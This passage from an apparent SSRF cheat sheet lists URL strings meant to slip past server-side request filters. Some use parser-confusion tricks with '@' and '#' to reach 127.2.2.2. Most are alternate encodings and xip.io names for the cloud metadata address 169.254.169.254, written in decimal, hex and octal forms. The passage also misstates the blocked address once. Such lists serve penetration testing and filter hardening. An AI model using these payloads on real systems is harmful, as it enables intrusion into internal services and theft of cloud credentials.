 -   Against weak parsers (these go to `http://127.2.2.2:80`)
    -   `**http://127.1.1.1:80\@127.2.2.2:80/**`
    -   `**http://127.1.1.1:80\@@127.2.2.2:80/**`
    -   `**http://127.1.1.1:80:\@@127.2.2.2:80/**`
    -   `**http://127.1.1.1:80#\@127.2.2.2:80/**`

#### **Bypass 169.254.169.254 address**

The most common bypass for AWS addresses is changing them to get past the blacklist of `169.245.169.254`.

-   `http://169.254.169.254.xip.io/`
-   `**http://1ynrnhl.xip.io**`
-   `**http://425.510.425.510**` – dotted decimal with overflow
-   `**http://2852039166**` – dotless decimal
-   `**http://7147006462**` – dotless decimal with overflow
-   `**http://0xA9.0xFE.0xA9.0xFE**` – dotted hexadecimal
-   `**http://0xA9FEA9FE**` – dotless hexadecimal
-   `**http://0x41414141A9FEA9FE**` – dotless hexadecimal with overflow
-   `**http://0251.0376.0251.0376**` – dotted octal
-   `**http://0251.00376.000251.0000376**` – dotted octal with padding

## References

1.  [http://en.wikipedia.org/wiki/URI_scheme](http://en.wikipedia.org/wiki/URI_scheme)
    
2.  [http://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers](http://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers)
    
3.  [http://msdn.microsoft.com/en-us/library/system.uri.scheme.aspx](http://msdn.microsoft.com/en-us/library/system.uri.scheme.aspx)
    
4.  [http://search.cpan.org/~gaas/libwww-perl-6.04/lib/LWP.pm](http://search.cpan.org/~gaas/libwww-perl-6.04/lib/LWP.pm)
    
5.  [http://php.net/manual/en/wrappers.php](http://php.net/manual/en/wrappers.php)
    
6.  [http://docs.oracle.com/javase/1.5.0/docs/api/javax/print/attribute/standard/ReferenceUriSchemesSupported.html](http://docs.oracle.com/javase/1.5.0/docs/api/javax/print/attribute/standard/ReferenceUriSchemesSupported.html)
    
7.  [http://www.kernel.org/doc/man-pages/online/pages/man2/open.2.html](http://www.kernel.org/doc/man-pages/online/pages/man2/open.2.html)
    
8.  [http://media.blackhat.com/bh-us-11/Sullivan/BH_US_11_Sullivan_Server_Side_WP.pdf](http://media.blackhat.com/bh-us-11/Sullivan/BH_US_11_Sullivan_Server_Side_WP.pdf)
    
9.  [http://www.nostarch.com/download/tangledweb_ch3.pdf](http://www.nostarch.com/download/tangledweb_ch3.pdf)
    

## Tools

1.  [https://github.com/ONsec-Lab/scripts/blob/master/list-open-fd.c](https://github.com/ONsec-Lab/scripts/blob/master/list-open-fd.c)
    